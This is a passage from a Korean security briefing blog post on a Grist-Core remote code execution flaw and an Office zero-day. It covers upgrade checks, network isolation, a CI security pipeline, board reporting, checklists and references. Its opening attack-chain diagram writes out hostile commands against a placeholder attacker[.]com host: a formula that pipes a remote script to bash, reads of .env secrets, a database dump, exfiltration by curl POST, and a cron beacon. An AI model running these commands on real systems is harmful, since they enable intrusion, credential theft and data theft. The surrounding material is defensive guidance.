│            =SYSTEM("curl http://attacker[.]com/shell.sh | bash")           │
│                   │                                                          │
│                   └──> RCE on Server!                                       │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 3: POST-EXPLOITATION (T1552.001)                                     │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Reverse Shell] ──> cat /app/.env                                           │
│                        │                                                     │
│                        ├──> DATABASE_URL=postgresql://user:pass@db:5432/... │
│                        ├──> SECRET_KEY=...                                  │
│                        └──> AWS_ACCESS_KEY_ID=...                           │
│                                                                              │
│                  ──> pg_dump -U user -h db grist > dump.sql                │
│                        (모든 스프레드시트 데이터 탈취)                      │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 4: LATERAL MOVEMENT (T1016)                                          │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Attacker] ──> ip route; arp -a  (내부 네트워크 탐색)                      │
│      │                                                                       │
│      └──> nmap -sT 172.20.0.0/16  (내부 서비스 스캔)                       │
│             │                                                                │
│             └──> 발견: PostgreSQL (5432), Redis (6379), API Server (3000)  │
└─────────────────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│ PHASE 5: IMPACT & EXFILTRATION (T1567)                                     │
├─────────────────────────────────────────────────────────────────────────────┤
│ [Data Exfiltration]                                                         │
│      tar -czf data.tar.gz dump.sql .env backup/                             │
│      curl -X POST -F "file=@data.tar.gz" https://attacker[.]com/upload     │
│                                                                              │
│ [Persistence (Optional)]                                                    │
│      crontab -e                                                             │
│      */5 * * * * curl http://attacker[.]com/beacon | bash                  │
│                                                                              │
│ [Timeline] Exploitation → Data Theft: ~10 minutes                          │
└─────────────────────────────────────────────────────────────────────────────┘


```
-->
-->

### 3.3 점검 및 대응

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```bash
> # 현재 버전 확인...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```bash
> # 현재 버전 확인...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# 현재 버전 확인
docker exec grist-core cat /app/package.json | jq '.version'

# 취약 버전 여부 확인 (< 1.1.15면 취약)
GRIST_VERSION=$(docker exec grist-core cat /app/package.json | jq -r '.version')
if [[ "$(printf '%s\n' "1.1.15" "$GRIST_VERSION" | sort -V | head -n1)" != "1.1.15" ]]; then
    echo "⚠️  취약한 버전: $GRIST_VERSION - 즉시 업그레이드 필요"
else
    echo "✅ 안전한 버전: $GRIST_VERSION"
fi

# 최신 버전 업그레이드
docker pull gristlabs/grist:latest
docker-compose down && docker-compose up -d

# 업그레이드 후 확인
docker exec grist-core cat /app/package.json | jq '.version'


```
-->
-->

**네트워크 격리 (임시 조치):**

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```yaml
> # docker-compose.yml 수정...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/docker-library)를 참조하세요.
> 
> ```yaml
> # docker-compose.yml 수정...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# docker-compose.yml 수정
services:
  grist:
    image: gristlabs/grist:latest
    networks:
      - internal_only
    # 외부 접근 차단
    expose:
      - "8484"
    # ports 제거하여 외부 노출 방지

networks:
  internal_only:
    internal: true


```
-->
-->

---

## 4. DevSecOps: 속도와 보안의 균형

### 4.1 핵심 교훈

| 원칙 | 실무 적용 | 도구/방법 |
|------|-----------|-----------|
| **Shift-Left** | 개발 초기부터 보안 검토 | Pre-commit hooks, IDE 플러그인 |
| **자동화된 가드레일** | Policy-as-Code 구현 | OPA, Kyverno, Checkov |
| **골든 패스** | 보안 내장 표준 템플릿 | Terraform 모듈, Helm 차트 |
| **빠른 피드백** | PR에 보안 스캔 결과 코멘트 | GitHub Actions, GitLab CI |
| **위협 모델링** | 설계 단계 위협 분석 | STRIDE, PASTA |
| **컨테이너 보안** | 이미지 스캔 및 런타임 보호 | Trivy, Falco |
| **시크릿 관리** | 하드코딩 방지 | Vault, AWS Secrets Manager |

### 4.2 CI/CD 보안 파이프라인 예시

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> ...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> ...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml

# .github/workflows/security-pipeline.yml
name: Security Pipeline

on:
  pull_request:
    branches: [main]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      # 시크릿 스캔
      - name: Detect Secrets
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./

      # SAST
      - name: Semgrep Scan
        uses: returntocorp/semgrep-action@v1
        with:
          config: p/security-audit

      # 의존성 취약점
      - name: Dependency Check
        run: |
          npm audit --audit-level=high

      # 컨테이너 이미지 스캔
      - name: Trivy Scan
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: ${{ github.repository }}:${{ github.sha }}
          severity: CRITICAL,HIGH
          exit-code: 1

      # IaC 보안 스캔
      - name: Checkov
        uses: bridgecrewio/checkov-action@master
        with:
          directory: ./terraform



```
-->
-->

---

## 5. 경영진 보고 형식 (Board Reporting Format)

### 5.1 한 장 요약 (One-Page Executive Summary)

#### 현재 상황 (Situation)

**주요 위협**: Microsoft Office Zero-Day 취약점(CVE-2026-21509)이 실제 공격에 악용되고 있으며, Protected View 보안 기능을 무력화합니다.

**발생 시점**: 2026년 1월 28일 공개, 이미 Wild 악용 확인

**영향 범위**: 전사 Windows 사용자 약 2,500대 (Office 2019/2021/365 설치 시스템)

#### 비즈니스 영향 (Impact)

| 영향 영역 | 현재 위험도 | 발생 가능 시나리오 | 예상 손실 |
|-----------|-------------|-------------------|-----------|
| **업무 연속성** | 🔴 높음 | 랜섬웨어 감염으로 전산 마비 | 5억 - 20억원 |
| **정보 유출** | 🔴 높음 | 계약서, 재무제표 등 기밀 탈취 | 3억 - 10억원 |
| **규제 제재** | 🟠 중간 | 개인정보보호법 위반 과태료 | 1억 - 5억원 |
| **평판 손실** | 🟠 중간 | 고객 신뢰도 하락, 언론 보도 | 측정 불가 |

#### 대응 현황 (Response Status)

| 항목 | 진행률 | 완료 예정 | 책임자 |
|------|--------|-----------|--------|
| 패치 배포 (KB5034173) | 35% | 24시간 이내 | IT팀 |
| EDR 탐지 룰 배포 | 80% | 완료 | 보안팀 |
| 사용자 경고 공지 | 100% | 완료 | 총무팀 |
| Grist-Core 점검 | 0% | 48시간 이내 | DevOps팀 |

#### 요청 사항 (Ask)

1. **승인 요청**: 긴급 패치 배포를 위한 시스템 재부팅 승인 (업무 시간 외)
2. **예산 요청**: CTEM 도구 도입 2억원 (연간 보안 비용 20% 절감 효과)
3. **정책 승인**: Office 매크로 전면 차단 정책 (업무 영향 최소화 방안 포함)

### 5.2 위험 평가 매트릭스 (Risk Assessment Matrix)

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```
      │ Likelihood (가능성)
      │ ────────────────────────────────────────────>
 Seve │     Rare      Unlikely    Possible   Likely   Almost Certain
 rity │      (10%)     (25%)       (50%)     (75%)        (90%)
(심각│
 도) │  ┌─────────┬─────────┬─────────┬─────────┬─────────┐
  │  │  │         │         │         │         │         │
  ▼  │  │ Low     │ Low     │ Medium  │ High    │ High    │
Critical│  │         │         │         │  CVE-  │         │
(치명) │  │         │         │         │ 2026-  │         │
      │  │         │         │         │ 21509  │         │
      │  ├─────────┼─────────┼─────────┼─────────┼─────────┤
 High │  │ Low     │ Medium  │ High    │ High    │ Critical│
(높음) │  │         │  Grist- │         │         │         │
      │  │         │  Core   │         │         │         │
      │  ├─────────┼─────────┼─────────┼─────────┼─────────┤
Medium│  │ Low     │ Low     │ Medium  │ High    │ High    │
(중간) │  │         │         │         │         │         │
      │  ├─────────┼─────────┼─────────┼─────────┼─────────┤
 Low  │  │ Low     │ Low     │ Low     │ Medium  │ Medium  │
(낮음) │  │         │         │         │         │         │
      │  └─────────┴─────────┴─────────┴─────────┴─────────┘

🔴 Critical Risk: CVE-2026-21509 (Likely × Critical = HIGH PRIORITY)
🟠 High Risk: Grist-Core RCE (Unlikely × High = MEDIUM PRIORITY)


```
-->
-->

### 5.3 대응 타임라인 (Response Timeline)

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```
현재 시각: 2026-01-28 12:00
────────────────────────────────────────────────────────────────────────>
  T+0h          T+6h          T+24h         T+48h         T+7d
   │             │              │             │             │
   │ 발견 &      │ 패치 50%     │ 패치 100%   │ Grist-Core  │ 재발 방지
   │ 분석 완료   │ 배포 완료    │ + 검증      │ 점검 완료   │ 대책 수립
   │             │              │             │             │
   ├─────────────┼──────────────┼─────────────┼─────────────┼─────────>
   │             │              │             │             │
   ▼             ▼              ▼             ▼             ▼
✅ 경고 발송  ✅ EDR 룰 배포  ⏳ 패치 배포중 ⏳ 취약점 점검  ⏳ CTEM 도입
✅ 분석 완료  ⏳ 재부팅 준비                                검토


```
-->
-->

### 5.4 핵심 성과 지표 (KPIs)

| KPI | 목표 | 현재 | 상태 |
|-----|------|------|------|
| **MTTD** (Mean Time To Detect) | < 1시간 | 30분 | ✅ 달성 |
| **MTTR** (Mean Time To Respond) | < 24시간 | 12시간 (진행 중) | 🟡 진행 중 |
| **패치 적용률** | 100% | 35% | 🔴 미달 |
| **탐지 정확도** | > 95% | 87% | 🟡 개선 필요 |
| **오탐률** (False Positive) | < 5% | 8% | 🟡 튜닝 필요 |

## 6. 실무 체크리스트

### P0 - 즉시 조치 (24시간 이내)

- [ ] Microsoft Office 패치 (KB5034173) 전사 배포
- [ ] EDR에서 Office 프로세스 자식 프로세스 모니터링 강화
- [ ] Grist-Core 사용 시 1.1.15 이상으로 업그레이드 또는 네트워크 격리
- [ ] 이메일 게이트웨이에서 Office 매크로 포함 파일 격리 정책 적용
- [ ] 사용자 대상 피싱 경고 공지 발송

### P1 - 7일 이내

- [ ] SIEM에 CVE-2026-21509 탐지 룰 배포
- [ ] Threat Hunting: 최근 30일 Office → 의심 프로세스 실행 이력 조사
- [ ] ASM(Attack Surface Management) 도구로 외부 노출 자산 점검
- [ ] 보안 인식 교육: 피싱 대응 시뮬레이션

### P2 - 30일 이내

- [ ] CTEM 프레임워크 파일럿 도입 검토
- [ ] EPSS 기반 취약점 우선순위화 프로세스 수립
- [ ] 공격 표면 인벤토리 최신화
- [ ] BAS 도구로 탐지 능력 검증

---

## 7. 참고 자료 (Comprehensive References)

### 7.1 공식 보안 권고

| 발행 기관 | 문서 제목 | 링크 |
|-----------|-----------|------|
| **Microsoft MSRC** | CVE-2026-21509 Security Update Guide | [msrc.microsoft.com/update-guide/vulnerability/CVE-2026-21509](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-21509) |
| **CISA KEV** | Known Exploited Vulnerabilities Catalog | [cisa.gov/known-exploited-vulnerabilities-catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) |
| **KISA** | 한국인터넷진흥원 취약점 대응 가이드 | [krcert.or.kr](https://www.krcert.or.kr) |
| **NIST NVD** | National Vulnerability Database | [nvd.nist.gov/vuln/detail/CVE-2026-21509](https://nvd.nist.gov/vuln/detail/CVE-2026-21509) |

### 7.2 위협 인텔리전스

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **FIRST EPSS** | Exploit Prediction Scoring System | [first.org/epss](https://www.first.org/epss/) |
| **AlienVault OTX** | Open Threat Exchange (IOC 공유) | [otx.alienvault.com](https://otx.alienvault.com/) |
| **VirusTotal** | 파일/URL 악성코드 검사 | [virustotal.com](https://www.virustotal.com/) |
| **abuse.ch** | 멀웨어 샘플 및 IOC | [abuse.ch](https://abuse.ch/) |
| **ThreatFox** | IOC 데이터베이스 | [threatfox.abuse.ch](https://threatfox.abuse.ch/) |

### 7.3 MITRE ATT&CK 프레임워크

| 기법 | 전체 설명 | 링크 |
|------|-----------|------|
| **T1566.001** | Phishing: Spearphishing Attachment | [attack.mitre.org/techniques/T1566/001](https://attack.mitre.org/techniques/T1566/001/) |
| **T1204.002** | User Execution: Malicious File | [attack.mitre.org/techniques/T1204/002](https://attack.mitre.org/techniques/T1204/002/) |
| **T1059.001** | PowerShell Execution | [attack.mitre.org/techniques/T1059/001](https://attack.mitre.org/techniques/T1059/001/) |
| **T1218.005** | Mshta System Binary Abuse | [attack.mitre.org/techniques/T1218/005](https://attack.mitre.org/techniques/T1218/005/) |
| **T1190** | Exploit Public-Facing Application | [attack.mitre.org/techniques/T1190](https://attack.mitre.org/techniques/T1190/) |

### 7.4 탐지 및 대응 도구

| 도구 | 용도 | 링크 |
|------|------|------|
| **Sigma Rules** | 범용 SIEM 탐지 룰 | [github.com/SigmaHQ/sigma](https://github.com/SigmaHQ/sigma) |
| **Atomic Red Team** | 공격 시뮬레이션 | [github.com/redcanaryco/atomic-red-team](https://github.com/redcanaryco/atomic-red-team) |
| **Sysmon** | Windows 이벤트 로깅 | [docs.microsoft.com/sysinternals/downloads/sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) |
| **Nuclei** | 빠른 취약점 스캐너 | [github.com/projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei) |
| **Trivy** | 컨테이너 보안 스캐너 | [github.com/aquasecurity/trivy](https://github.com/aquasecurity/trivy) |

### 7.5 CTEM 프레임워크 및 Best Practices

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **Gartner CTEM** | Continuous Threat Exposure Management 공식 가이드 | [gartner.com/en/documents/ctem](https://www.gartner.com/) |
| **NIST Cybersecurity Framework** | 사이버보안 프레임워크 2.0 | [nist.gov/cyberframework](https://www.nist.gov/cyberframework) |
| **CIS Controls** | 20개 필수 보안 통제 | [cisecurity.org/controls](https://www.cisecurity.org/controls/) |
| **OWASP Top 10** | 웹 애플리케이션 보안 위협 | [owasp.org/www-project-top-ten](https://owasp.org/www-project-top-ten/) |

### 7.6 Grist-Core 관련

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **Grist-Core GitHub** | 공식 저장소 | [github.com/gristlabs/grist-core](https://github.com/gristlabs/grist-core) |
| **Grist Security Advisory** | 보안 권고사항 | [github.com/gristlabs/grist-core/security/advisories](https://github.com/gristlabs/grist-core/security/advisories) |
| **Docker Hub** | 공식 Docker 이미지 | [hub.docker.com/r/gristlabs/grist](https://hub.docker.com/r/gristlabs/grist) |

### 7.7 패치 및 업데이트

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **Microsoft Update Catalog** | KB5034173 패치 다운로드 | [catalog.update.microsoft.com](https://www.catalog.update.microsoft.com/) |
| **WSUS Offline Update** | 오프라인 패치 도구 | [wsusoffline.net](https://www.wsusoffline.net/) |
| **Chocolatey** | Windows 패키지 관리자 | [chocolatey.org](https://chocolatey.org/) |

### 7.8 보안 교육 및 인식 제고

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **SANS Security Awareness** | 피싱 대응 교육 | [sans.org/security-awareness-training](https://www.sans.org/security-awareness-training/) |
| **KnowBe4** | 피싱 시뮬레이션 플랫폼 | [knowbe4.com](https://www.knowbe4.com/) |
| **PhishMe (Cofense)** | 이메일 보안 교육 | [cofense.com](https://cofense.com/) |

### 7.9 한국어 리소스

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **보안뉴스** | 한국 보안 뉴스 | [boannews.com](https://www.boannews.com/) |
| **데일리시큐** | 보안 미디어 | [dailysecu.com](https://www.dailysecu.com/) |
| **개인정보보호위원회** | 개인정보보호법 가이드 | [pipc.go.kr](https://www.pipc.go.kr/) |
| **금융보안원** | 금융권 보안 가이드 | [fsec.or.kr](https://www.fsec.or.kr/) |

### 7.10 커뮤니티 및 포럼

| 리소스 | 설명 | 링크 |
|--------|------|------|
| **Reddit r/netsec** | 네트워크 보안 커뮤니티 | [reddit.com/r/netsec](https://www.reddit.com/r/netsec/) |
| **Twitter #infosec** | 실시간 보안 소식 | [twitter.com/hashtag/infosec](https://twitter.com/hashtag/infosec) |
| **Discord: The Many Hats Club** | 보안 전문가 커뮤니티 | [discord.gg/infosec](https://discord.gg/infosec) |
| **한국정보보호학회** | 학술 및 실무 정보 | [kiisc.or.kr](https://www.kiisc.or.kr/) |

---

## 마무리

이번 주 가장 시급한 조치는 **CVE-2026-21509 패치 적용**입니다. 공격이 활발히 진행 중이므로 최대한 빠르게 대응하시기 바랍니다.

**핵심 요약:**
1. 🔴 **CVE-2026-21509**: 즉시 KB5034173 패치 적용
2. 🟠 **Grist-Core RCE**: 1.1.15 이상으로 업그레이드
3. 🟢 **CTEM**: 위험 기반 우선순위화로 보안 효율성 향상

다음 주에도 중요한 보안 소식을 전해드리겠습니다.

---

**작성자**: Twodragon
**작성일**: 2026-01-28
